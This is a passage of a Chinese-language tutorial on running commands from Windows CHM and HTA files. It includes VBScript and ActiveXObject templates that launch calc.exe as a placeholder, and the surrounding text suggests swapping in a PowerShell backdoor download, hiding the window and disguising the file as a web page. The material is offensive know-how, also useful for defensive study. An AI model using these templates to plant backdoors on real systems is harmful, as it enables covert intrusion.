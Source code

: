 calc.exe的地方即是放需要执行的指令的地方，譬如用powershell下载后门

创建完成后用easy CHM进行编译，即可在路径下找到编译好的chm文件

双击打开就会弹出计算机，说明命令成功执行。


# hta文件

HTA是HTML Application的缩写（HTML应用程序），是软件开发的新概念，直接将HTML保存成HTA的格式，就是一个独立的应用软件，与VB、C++等程序语言所设计的软件界面没什么差别。

简单来说就是直接写一个html文件，将后缀改为hta，就可以使用了。它会以应用的形式打开文件。

除此之外，用hta文件的原因是它具有桌面程序的所有权限(读写，修改注册表等)，所以我们可以用js调用ActiveXObject或者VBScript来执行我们的命令(浏览器打开普通html并没有权限执行)

- VBScript

```
<html>
<title>VBScirpt</title>
<center>
<h1>test</h1>
</center>
<script language="VBScript">
Set a = CreateObject("Wscript.Shell")
a.Run "calc.exe",vbhide
</script>
</html>
```

vbhide可以隐藏弹窗

- ActiveXObject

```
<html>
<body>
<h1>test</h1>
<script type="text/javascript">
var cmd = new ActiveXObject("WScript.Shell");
var cmdStr = "calc.exe";
cmd.run(cmdStr);
cmd = null;
</script> 
</body>
</html>
</html>
```

可以通过`<HTA:Application>`修改hta窗口样式。具体百度都有

感觉这个可以伪装网页所以应该蛮好隐藏的

# ole对象
